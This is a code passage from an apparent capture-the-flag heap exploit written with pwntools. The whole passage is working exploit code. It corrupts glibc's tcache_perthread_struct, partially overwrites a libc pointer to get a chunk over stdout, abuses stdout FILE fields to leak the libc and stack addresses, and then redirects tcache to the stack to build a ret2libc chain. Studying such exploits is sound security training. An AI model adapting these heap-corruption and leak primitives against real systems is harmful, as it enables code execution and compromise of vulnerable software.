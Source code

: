 ```python
    
    # ======================================================

    # create a big chunk over tcache_perthread_struct 
    # and put it in unsorted bin
    # now we have a libc pointer as first entry in 0x40 tcache
    # then partial override that ptr to make it point to stdout


    # allocate a chunk precisely over 0x40 tcache entry in tcache_perthread_struct
    # it's size will be changed by the chunk above
    payload = p32(0) + p64(0)*3 + p64(heap+0xa0) 
    change(4, 6, payload)
    add(2, 1, b"")
    # enlarge
    change(4, 6, p32(0)+flat(0,0,0x4f1))

    # free it (to unsortedbins) 
    # to have a libc ptr as first entry on 0x40 tcache
    remove(2)

    # calulate partial stdout from leaked libc bytes
    partial_stdout = (partial_libc & 0xfffff000) + 0x780

    # partial override libc address to allocate over stdout
    payload = p32(0)+flat(0,0,0x4b1)+p32(partial_stdout)
    change(4, 6, payload)

    # ======================================================
    
    add(5, 1, b"") # chunk over stdout
    # partial override _IO_write_base to leak libc
    mark = 0xfbad1887
    desc = p32(0) + p64(0)*3 + p32(partial_stdout-0x100)
    change(5, mark, desc)

    r.recv()
    libc.address = u64(r.recv(8)) - 0x21a6a0
    log.warning(f"libc: {hex(libc.address)}")
    
    # ======================================================

    # leak environ abusing stdout as read primitive

    mark = 0xfbad1887
    # _IO_write_base = _IO_read_end = environ
    # _IO_write_ptr = environ+0x100
    desc = p32(0) + p64(0) + p64(libc.sym.environ) + p64(0) + p64(libc.sym.environ) + p64(libc.sym.environ+0x100)
    change(5, mark, desc)

    r.recv()
    stack = u64(r.recv(8)) - 0x148
    log.warning(f"stack: {hex(stack)}") 

    # ======================================================
    # change tcache metadata to allocate over retaddr of add_mark function
    # then write a ret2libc on the stack

    # change tcache_perthread_struct using previously allocated chunk
    payload = p32(0)+flat(0,0,0x511)+p64(stack)
    change(4, 6, payload)

```